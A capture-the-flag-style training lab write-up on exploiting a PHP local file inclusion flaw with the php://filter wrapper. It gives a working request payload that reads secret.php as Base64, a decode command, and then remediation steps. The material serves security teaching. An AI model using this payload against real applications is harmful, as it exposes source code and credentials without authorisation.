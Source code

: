 # PHP Wrappers in File Inclusion Vulnerabilities (PortSwigger Lab)

## File Inclusion Vulnerabilities - Lab Analysis

### **Lab: PHP Wrappers in File Inclusion Vulnerabilities**

#### **Lab URL : This is a lab specific to the TCM training from their course Practical Web Hacking**

This lab is a guided exercise from Lab Files.

Additional reference: [PayloadsAllTheThings - PHP Wrappers](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/Wrappers/#wrapper-phpfilter)

GitHub Repository: [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

***

### **Objective**

The goal of this lab is to understand how PHP wrappers can be exploited in **File Inclusion vulnerabilities** to extract sensitive data. By leveraging PHP’s built-in filters, attackers can bypass restrictions and retrieve hidden files encoded in formats such as Base64.

***

### **Understanding the Vulnerability**

* The web application allows dynamic inclusion of files using the `lang` parameter but lacks proper input validation.
* This flaw enables attackers to leverage **PHP wrappers**, such as `php://filter`, to manipulate how the application processes and retrieves files.
* By encoding files in Base64 before returning them in the response, attackers can bypass certain filters and extract sensitive information.

***

### **Step-by-Step Solution**

#### **Step 1: Generate Traffic**

* Navigate to the application running on `localhost`.
* Interact with the language selection feature to observe how files are retrieved.
*   Identify a GET request similar to:

    ```plaintext
    GET /?lang=language/en.php HTTP/1.1
    Host: localhost
    ```
* The `lang` parameter dynamically includes language files.

***

#### **Step 2: Modify the Request with PHP Wrappers**

* Open **Burp Suite** and enable **Intercept** mode.
*   Capture the request and replace the `lang` parameter with a **PHP wrapper payload**:

    ```plaintext
    GET /?lang=php://filter/convert.base64-encode/resource=secret.php HTTP/1.1
    Host: localhost
    ```
* Forward the modified request to the server.

***

#### **Step 3: Decode the Extracted Data**

*   If successful, the server will return a Base64-encoded version of `secret.php`, such as:

    ```plaintext
    PD9waHAgZWNobyAiU2VjcmV0IFBhc3N3b3JkOiBzdXBlclNlY3JldCI7ID8+
    ```
*   Decode the Base64 data using one of the following methods:

    **Using CyberChef:**

    * Paste the encoded string into **CyberChef**.
    * Apply the `From Base64` recipe to reveal the original contents.

    **Using a Terminal:**

    ```bash
    echo 'PD9waHAgZWNobyAiU2VjcmV0IFBhc3N3b3JkOiBzdXBlclNlY3JldCI7ID8+' | base64 -d
    ```
* The output reveals the sensitive contents of `secret.php`, such as hardcoded credentials or API keys.

***

### **Why This is an Example of File Inclusion Vulnerability**

#### **Characteristics of the Vulnerability**

1. **Lack of Input Validation**: The application allows dynamic file inclusion without restricting input.
2. **Use of PHP Wrappers**: Attackers can manipulate the file processing mechanism to bypass security controls.
3. **Exfiltration via Encoding**: Using `php://filter`, attackers encode sensitive files before retrieval to avoid detection.

#### **Security Implications**

* **Information Disclosure**: Exposing source code can lead to credential leaks and further exploitation.
* **Potential Remote Code Execution**: If the attacker gains knowledge of writable file paths, they could inject and execute malicious PHP code.

***

### **Remediation Strategies**

1. **Sanitize User Input**
   * Restrict file paths to pre-approved values.
   * Implement an allowlist approach instead of a blocklist.
2. **Disable PHP Wrappers**
   * If wrappers are not needed, disable them in the PHP configuration to prevent abuse.
   * Use server-side controls to block file inclusion via `php://` streams.
3. **Restrict File Access**
   * Configure the application to only allow file access within designated directories.
   * Use **open\_basedir** in PHP to prevent directory traversal attacks.
4. **Monitor and Log Suspicious Activity**
   * Track file inclusion attempts and log unexpected parameters.
   * Set up alerting mechanisms for unusual file retrieval patterns.

***

### **Conclusion**

This lab illustrates how **PHP wrappers** can be abused in **File Inclusion vulnerabilities** to extract sensitive data. Proper validation of file inclusion paths, disabling unnecessary PHP features, and enforcing strict access controls are key to mitigating these risks. Regular security assessments can help detect and patch such vulnerabilities before they are exploited.
